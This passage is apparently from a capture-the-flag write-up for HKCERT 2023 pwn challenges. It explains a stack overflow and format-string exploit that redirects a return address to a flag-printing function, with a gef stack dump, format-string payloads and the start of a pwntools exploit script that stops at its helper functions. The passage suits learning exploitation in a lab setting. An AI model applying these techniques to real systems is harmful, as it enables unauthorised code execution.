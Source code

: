 ```python
payload += b"F" *8
payload += sc
sl(payload)

p.interactive()
```

## Absolute Winner (300 points, 6 solves)

This chal gave us the chances to buffer overflow on the stack and only one chance to exploit the format string attack on `printf`.
When we set a breakpoint one the `printf` after the `pretty_alert` function, we can see the stack be like:
```c
gef➤  tele
0x007ffcfbc9f8c8│+0x0000: 0x0055d0bf24941a  →  <pretty_alert+226> lea rax, [rip+0xbed]        # 0x55d0bf24a00e    ← $rsp
0x007ffcfbc9f8d0│+0x0008: 0x00000002fbc9fa78
0x007ffcfbc9f8d8│+0x0010: 0x007ffcfbc9f91b  →  0x756f004141414141 ("AAAAA"?)
0x007ffcfbc9f8e0│+0x0018: 0x007ffcfbc9f950  →  0x007ffcfbc9f960  →  0x0000000000000001   ← $rbp
0x007ffcfbc9f8e8│+0x0020: 0x0055d0bf2498ea  →  <game3+635> mov edi, 0x0
0x007ffcfbc9f8f0│+0x0028: 0x4141414141410059 ("Y"?)
0x007ffcfbc9f8f8│+0x0030: 0x4141414141414141
0x007ffcfbc9f900│+0x0038: 0x4141414141414141
0x007ffcfbc9f908│+0x0040: 0x00000000000001f4
0x007ffcfbc9f910│+0x0048: 0x0000000200000001
```
`rsp+0x0` is the return address of the `printf` function and `rsp+0x18` is pointing to a stack address.

The exploit idea is simple, modify the value of `rsp+0x18` and let it pointed to `rsp+0x0` with `%c" * 6 + b"%77c%hhn`
and then based on the pointer to modify the return address to `printf_flag` with %92c%22$hhn`.
Here I managed to return to `printf_flag + 0x5` for avoiding some stack alignment issue.

### Exploit Script
```python
from pwn import *

TARGET = './chall'
HOST = 'chal.hkcert23.pwnable.hk'
PORT = 28246
context.arch = 'amd64' # i386/amd64
#context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    # libc = ELF('')
else:
    gdbscript = "b *$_base()+0x1415"
    
    #p = remote("127.0.0.1", 1337)
    p = gdb.debug(TARGET, gdbscript=gdbscript, aslr=True)

#--- helper functions
s       = lambda data               :p.send(data)     
sa      = lambda delim,data         :p.sendafter(delim, data) 
sl      = lambda data               :p.sendline(data) 
sla     = lambda delim,data         :p.sendlineafter(delim, data) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
# misc functions
```